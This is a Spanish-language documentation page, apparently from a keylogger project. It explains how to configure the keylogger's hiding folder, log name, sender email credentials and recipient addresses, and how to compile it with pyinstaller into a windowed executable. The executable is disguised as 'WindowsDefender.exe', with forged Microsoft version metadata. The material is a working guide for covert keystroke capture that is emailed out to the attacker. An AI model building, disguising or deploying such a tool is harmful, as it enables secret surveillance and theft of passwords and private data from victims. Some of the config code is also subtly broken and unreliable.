 [Volver al a la documentación](../README.md)

# Custom __[Developer Junior]__

````py
# ****************************************   ZONA CUSTOM   *********************************
def GetNameKey():                   # Retorna el nombre del Keylogger compilado *.EXE
    return "WindowsDefender.exe"    # este archivo debe tener el mismo nombre "WindowsDefender.py"  
def GetPathOcult():                 # Path de la carpeta donde se ocultará el Keylogger y log.txt
    return "C:\\Users\\Public\\Security\\Windows Defender\\"
def LogName():  # Nombre del log (Registro de teclas)
    return ".key"
def FilePath():
    return str(GetPathOcult()+GetPathOcult())

# Correo de envío [Primaria] 
def emailP():                   # <<== Cambia éste correo
    return "Send123@gmail.com" 
def passP():                    # <<== Contraseña del correo
    return "contraseña1"
# Correo de envío [Segundaria]     <=> Solo si hay algún problema de envío con el correo Principal
def emailS():                   # <<== Cambia éste correo
    return "Sendabc@gmail.com"
def emailP():                   # <<== Contraseña del correo 
    return "contraseña2"

#Correos que recibirán los archivos log
def ReceiveE():
    #return ["Recibe1@gmail.com", "Recibe2@hotmail.com", "Recibe3@yahoo.com"]   # MultiCorreo
    return ["Recibe1@gmail.com"]                                                # MonoCorreo

# *****************************************   FIN ZONA CUSTOM   *******************************
````


# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/4ytoK3h.png)
    ![Imagen2](https://i.imgur.com/1Dj2Tat.png)

    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
```` t
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


    ````r
    pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
    ````